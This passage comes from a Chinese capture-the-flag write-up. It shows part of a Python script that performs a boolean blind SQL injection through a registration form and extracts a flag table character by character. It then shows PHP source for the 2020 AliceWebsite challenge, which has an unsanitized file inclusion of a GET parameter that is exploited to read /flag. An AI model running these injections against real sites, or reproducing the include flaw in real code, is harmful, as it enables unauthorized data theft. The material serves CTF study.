 ```python
    res = requests.post(url + '/register.php', data=data)
    if res.status_code == '200':
        print('error')
        exit()
    return email

def login(email):
    data = {
    'email': email,
    'password': '1'
    }
    res = requests.post(url + '/login.php', data=data)
    code = int(re.findall(r'<span class="user-name">\n[ ]{1,}(.*?)[ ]{1,}<\/span>', res.text)[0])
    return code


flag = ''

i = 1

while True:

    min = 32
    max = 127

    while min < max:
        time.sleep(0.3)
        mid = (min + max) // 2
        print('testing',chr(mid))
        sql = 'ascii(substring((select group_concat(`1`) from (select 1 union select * from flag)x) from {} for 1))>{}'.format(i,mid)
        if login(register(sql)):
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    print(flag)
    i += 1

```

## [网鼎杯 2020 半决赛]AliceWebsite

给出了源码

```php
<?php
        $action = (isset($_GET['action']) ? $_GET['action'] : 'home.php');
        if (file_exists($action)) {
            include $action;
        } else {
            echo "File not found!";
        }
        ?>
```

直接文件包含`/flag`就出了？？
